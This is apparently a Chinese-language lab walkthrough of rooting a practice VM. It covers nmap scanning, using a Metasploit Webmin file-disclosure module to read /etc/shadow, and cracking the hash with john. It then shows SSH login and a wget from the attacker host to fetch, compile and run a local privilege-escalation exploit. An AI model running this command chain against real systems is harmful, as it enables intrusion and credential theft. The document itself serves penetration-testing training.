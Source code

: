 
# 环境
攻击机IP：192.168.1.10<br />目标机IP：192.168.1.18


# 实战

## 信息收集
使用NMAP扫描端口
```
nmap -Pn -sV 192.168.1.18
```
![image.png](../../_img\06-靶场实践/1657691710906-922dad79-f263-457f-a284-8f9ab9f3ab22.png)

可以看到开放了22-SSH、80-http、10000-http等端口

先看看80端口，浏览一番后发现并没有什么东西，基本上就是有关提示
![image.png](../../_img\06-靶场实践/1657691713945-ff4c4840-e0e1-469e-aaa2-d86bacfaeed6.png)

看一下10000端口，是一个登录界面，尝试了一下万能密码，无法绕过
![image.png](../../_img\06-靶场实践/1657691719098-12b345ab-10af-46a8-ab13-e49ec46c53d3.png)


## 漏洞发现
在上面的扫描中我们发现1000端口运行的是`Webmin`程序，看看该程序有没有什么已知漏洞
```
searchsploit Webmin 0.01
```
![image.png](../../_img\06-靶场实践/1657691723087-f7d5d30b-fbcc-4fbf-98d7-5699ce30b877.png)


## 漏洞利用
存在漏洞那么我们就尝试利用漏洞得到一些信息，打开MSF查找`webmin`
![image.png](../../_img\06-靶场实践/1657691729000-e31e2669-56a3-4601-b9cd-6009b753d180.png)

看到`auxiliary/admin/webmin/file_disclosure`模块与我们在上面所找出来的漏洞相似，加以利用
```
msf6 > use 1             --利用模块
msf6 auxiliary(admin/webmin/file_disclosure) > show options         --查看需要的设置
msf6 auxiliary(admin/webmin/file_disclosure) > set rhosts 192.168.1.18    --设置目标IP
msf6 auxiliary(admin/webmin/file_disclosure) > run              --启动模块
```
![image.png](../../_img\06-靶场实践/1657691734720-1631fa6d-fd53-4df2-b8a7-57042b14ecd7.png)

可以看到我们获取了目标系统的可用用户名，然后去获取密码
```
msf6 auxiliary(admin/webmin/file_disclosure) > set rpath /etc/shadow
msf6 auxiliary(admin/webmin/file_disclosure) > run
```
![image.png](../../_img\06-靶场实践/1657691740316-6063fae7-6af9-4260-963b-204246a3a3fc.png)

将得到的密码HASH复制到一个文档中并命名为pass，使用john破解，得到密码h4ckm3
```
john --wordlist=/usr/share/wordlists/rockyou.txt pass
```
![image.png](../../_img\06-靶场实践/1657691744723-73167d98-1e3e-4bd7-9034-2258c5d26883.png)

在前面的扫描中我们看到开放了22-SSH端口，尝试连接
```
ssh vmware@192.168.1.18
```
![image.png](../../_img\06-靶场实践/1657691748882-43511379-c1a6-488a-ad13-ef973a44c39d.png)


## 提权
根据目标机器系统版本在kali中找到对应利用文件
![image.png](../../_img\06-靶场实践/1657691753134-f547b25b-6702-4889-b623-310020d920e0.png)

将利用文件复制到`/var/www/html`下
```
root@kali-xmtx:~/桌面# cd /usr/share/exploitdb/exploits/linux/local/
root@kali-xmtx:/usr/share/exploitdb/exploits/linux/local# cp 5092.c /var/www/html/
root@kali-xmtx:/usr/share/exploitdb/exploits/linux/local# cd /var/www/html/
root@kali-xmtx:/var/www/html# ls
```
![image.png](../../_img\06-靶场实践/1657691758954-6ced02c4-70d8-461f-b98c-6a9dd5bc54ac.png)

启动apach服务
```
service apache2 start
```

在ssh中将5092.c下载到目标机
```
vmware@ubuntuvm:/$ cd /tmp
vmware@ubuntuvm:/tmp$ wget http://192.168.1.10/5092.c
vmware@ubuntuvm:/tmp$ ls
```
![image.png](../../_img\06-靶场实践/1657691763383-7293846d-4f44-447c-9585-2cf656eaf297.png)

编译5092.c并赋权限然后执行
```
vmware@ubuntuvm:/tmp$ gcc 5092.c -o shell
vmware@ubuntuvm:/tmp$ chmod 777 shell
vmware@ubuntuvm:/tmp$ ./shell
```
![image.png](../../_img\06-靶场实践/1657691768418-21869f78-fee3-4183-924e-4724d3a9ea7a.png)

成功得到root权限
![image.png](../../_img\06-靶场实践/1657691772850-3e7d57dd-120e-447b-9c46-a6935ccc7591.png)
